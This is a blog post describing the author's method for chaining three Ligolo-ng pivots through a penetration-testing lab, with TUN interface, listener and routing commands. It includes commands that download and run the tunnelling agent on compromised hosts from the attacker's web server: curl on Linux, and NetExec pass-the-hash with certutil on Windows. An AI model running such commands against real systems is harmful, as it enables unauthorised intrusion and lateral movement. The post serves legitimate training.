 ```yaml
---
title: "Ligolo-ng Multi-Pivot - My methods"
date: 2024-06-27T00:00:30-06:00
categories:
  - blog
tags:
  - Networking
  - Pivoting
  - Routing
  - Ligolo
  - OSCP
---
```


There are plenty of articles, blogs, and how-tos out there that show how to use Ligolo-ng to tunnel your traffic through dispersed networks. I used many of them myself to learn how to use Ligolo-ng. I am sure there are some that explain even what I will today, but when I looked quickly, I didn't see one, and I need to create content, so this was born.

My hope for this post is to present some techniques to implement Ligolo-ng that may be helpful. It may be more appropriate to name this something like "Pivoting with Ligolo-ng - My Methods." I am going to focus this methodology on a single scenario: the multi-pivot, but with a bit of a twist. The final pivot will not route to a different subnet, only to a portion of an existing subnet unavailable to me from the previous pivot. I believe this will allow me to show enough content to make this blog post worth reading.

Let's dive into the scenario and the steps to achieve this unique pivoting method with Ligolo-ng.
(I will be redacting information that would identify the lab i am using. I don't know if it is neccesary but best to be safe.)

## Toolset
- Ligolo-ng - [nicocha30/ligolo-ng: An advanced, yet simple, tunneling/pivoting tool that uses a TUN interface. (github.com)](https://github.com/Nicocha30/ligolo-ng)
- Net-Exec  - [Pennyw0rth/NetExec: The Network Execution Tool (github.com)](https://github.com/Pennyw0rth/NetExec)

## Preparation
I am going to get some preparation out of the way now in order to keep this as organized as possible, for you and for me.  TUN interfaces are used to route traffic between the ligolo server and agents.  These don't exist so we must create them.  

### Create TUN Interfaces
The below commands will create three TUN interfaces for my user, `kali`.`
```bash
sudo ip tuntap add user kali mode tun ligolo1
sudo ip link set ligolo1 up

sudo ip tuntap add user kali mode tun ligolo2
sudo ip link set ligolo2 up

sudo ip tuntap add user kali mode tun ligolo3
sudo ip link set ligolo3 up
```

![](/_posts/res/ligolopivoting/Pasted%20image%2020240627051159.png?raw=true)
*Three ligolo TUN interfaces, my existing VPN connection, and my virtual ethernet.*

### My Terminals
Maybe not what you have come here for exactly but this post is about how I implement ligolo and  staying organized is a big part of it for me. That said, i use `Terminator` for my terminals.  It has some features that i use alot, but that may be another blog one day.  For today we will just focus on how it helps with ligolo.  When doing labs and CTF work i have many tabs open at once, and try to utilize them only for they are mean to be used for.  My ligolo tab houses any terminal window used to manage TUN interfaces.  Mainly, ligolo proxy and a terminal per ligolo agent.  Makes it super easy to bring them all back up if something fails.  Let's start ligolo and see what our space looks like.
![](/_posts/res/ligolopivoting/Pasted image 20240627052707.png?raw=true)
*Ligolo started from our `loadables` (This is the web server root) directory*

## Initiate first pivot
The first pivot in this lab happens on a linux machine.  I will SSH in, grab our ligolo linux agent and connect it to our ligolo proxy.

```bash
curl http://10.10.15.252:8000/tools/ligolo/ligolo-ng_agent_linux_amd64/agent -0 -o /tmp/agent ; chmod +x /tmp/agent

/tmp/agent -connect 10.10.15.252:11601 -ignore-cert
```
*Connect back to our VPN address and ignore the cert warning since we are using a self signed cert. The autocert feature is pretty easy to use but i just dont bother in the labs.*

With the agent connected we can start the tunnel.  We will use our first TUN interface for this.

![](/_posts/res/ligolopivoting/Pasted image 20240627064200.png?raw=true)
*Selected the session. Started the tunnel on ligolo1 TUN interface.*

Now all that is left for the first pivot is to add a route table entry on our attack machine.  The internal network on this lab is 172.16.1.0/24.

```bash
sudo ip route add 172.16.1.0/24 dev ligolo1
```
![](/_posts/res/ligolopivoting/Pasted image 20240627055507.png?raw=true)

Thats pivot one. Lets move on.

## Initiate second pivot
The second pivot is a standard pivot that will give us access to a new subnet 172.16.2.0/24.  Now even though this pivot host can route back to our attack host i will be using a listener on our first agent to forward the traffic anyway. I do this for two reasons. 1) it helps my brain to have a standard way of doing things.  2) From MY limited experience to this point... it seems more stable.

To setup the listener we will make sure the first session is selected (I know we only have one session currently so this may not make sense, but if you ever add a listener on the wrong session in ligolo you may find out the hard way that you should have done this bit of due diligence in the first place.), and then issue the `listener_add` command in ligolo. 

```bash
listener_add --addr 0.0.0.0:443 --to 127.0.0.1:11601
```
![](/_posts/res/ligolopivoting/Pasted image 20240627064457.png?raw=true)
- --addr 0.0.0.0:443 sets up the listener interface and port on our pivot host
	- Using the all interfaces 0.0.0.0 is kind of lazy. this first pivot host does have multiple ips and we only really need this to run on one but .... meh. I may show a good reason later for this to be the internal address
- --to defines where the traffic destined for 443 on 0.0.0.0 will be sent to 
	- because this is the first pivot 127.0.0.1 actually means to send it to our attack host.  This could most likely be interchanged with our VPN address making it more clear. but... meh

With that out of the way, let's get our ligolo agent on this Windows box and connect it back to our listener.  Using Net-Connect is my preferred way of handling this, as i imagine it is alot of yours as well. 

```bash
nxc smb 172.16.1.254 -u user -H hash -x 'certutil -f -urlcache http://10.10.15.252:8000/tools/ligolo/ligolo-ng_agent_windows_amd64/agent.exe c:\windows\system32\agent.exe'
```
![](/_posts/res/ligolopivoting/Pasted image 20240627062722.png?raw=true)

```bash
nxc smb 172.16.1.254 -u user -H hash -x 'c:\windows\system32\agent.exe -connect 172.16.1.23:443 -ignore-cert'
```

Now we select the session and start it on the ligolo2 TUN.
![](/_posts/res/ligolopivoting/Pasted image 20240627063703.png?raw=true)

I know that a portion of that subnet is not available from this pivot host.  I will act like i don't know that and then we will fix the routing later. 
![](/_posts/res/ligolopivoting/Pasted image 20240627063949.png?raw=true)

## Initiate third pivot
So we are already routing 172.16.2.0/24 over ligolo2 and this pivot is going to be a pivot to that same range but only available from this pivot host.  i want to maintain the integrity of my forwarding chain while still making it to this section of the network. 

Let's limit our routing to ligolo2 to only include our pivot host.
```bash
# Add an entry for 2.102 to route tthrough ligolo2
sudo ip route add 172.16.2.102/32 dev ligolo2
# Remove subnet route
sudo ip route del 172.16.2.0/24
```
![](/_posts/res/ligolopivoting/Pasted image 20240627065656.png?raw=true)

Now let's prepare a listener on our second pivot host session to connect this third pivot agent to. (I know. I'm sorry.)
```bash
listener_add --addr 0.0.0.0:443 --to 172.16.1.23:443
```

Now we can connect our agent to our new listener. we will use the same Net-Exec command to download the agent and run it on this windows host as we did on the last except this time we will connect to our new listener.
```bash
-x 'certutil -f -urlcache http://10.10.15.252:8000/tools/ligolo/ligolo-ng_agent_windows_amd64/agent.exe c:\windows\system32\agent.exe'

-x 'c:\windows\system32\agent.exe -connect 172.16.1.5:443 -ignore-cert'
```

Once it connects, we will select the session and start the tunnel on the ligolo3 TUN interface.
```bash
start --tun ligolo3
```

Because I know what host is behind ligolo3 I can just add a host route (/32) to the table to reach it. But we will leave some more discussion about this for the closing thoughts. Let's add the host route and call it mission accomplished.

```bash
sudo ip route add 172.16.2.12/32 dev ligolo3
```
![](/_posts/res/ligolopivoting/Pasted image 20240627071910.png?raw=true)

## Closing Thoughts
- Had i used specific IPs when setting up the listeners instead of 0.0.0.0 then when issuing the listener_list command in ligolo it would be easier to follow the trail
- If at any pivot point a network could not route to my VPN network or any upstream network in the forwarding chain i would have needed to add a port forward for my web server.  I like to try and use all the same ports where possible so in my case i would have added listeners to forward out port 8000 through the chain.
- Net-Exec isn't the only way to do download and start the agents but i find when possible it just makes life easier.
- This routing method could become tedious. :/
